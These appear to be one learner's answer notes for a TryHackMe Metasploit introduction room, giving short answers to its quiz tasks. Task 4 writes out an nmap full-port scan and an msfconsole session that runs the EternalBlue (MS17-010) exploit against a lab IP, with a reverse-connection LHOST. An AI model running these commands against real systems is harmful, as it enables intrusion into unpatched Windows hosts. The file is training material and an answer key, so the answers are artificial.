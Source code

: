 # THM - Metasploit: Introduction

<br>

## Task 2

### Task 2.1

> exploit

### Task 2.2

> payload

### Task 2.3

> singles

### Task 2.4

> singles

<br>

## Task 3

https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking

### Task 3.1

> search apache

### Task 3.2

```shell
msfconsole
	info auxiliary/scanner/ssh/ssh_login
```

> todb

<br>

## Task 4

```shell
mkdir nmap
nmap -A -oN nmap/initial -p- 10.10.252.131
```

```shell
(msfconsole:)
	search eternalblue
	use exploit/windows/smb/ms17_010_eternalblue
	show options
	set RHOSTS 10.10.252.131
	set LHOST 10.14.27.197
	run
		
		pwd
```

### Task 4.1

> set LPORT 6666

### Task 4.2

> setg RHOSTS 10.10.19.23

### Task 4.3

> unset payload

### Task 4.4

> exploit

<br>

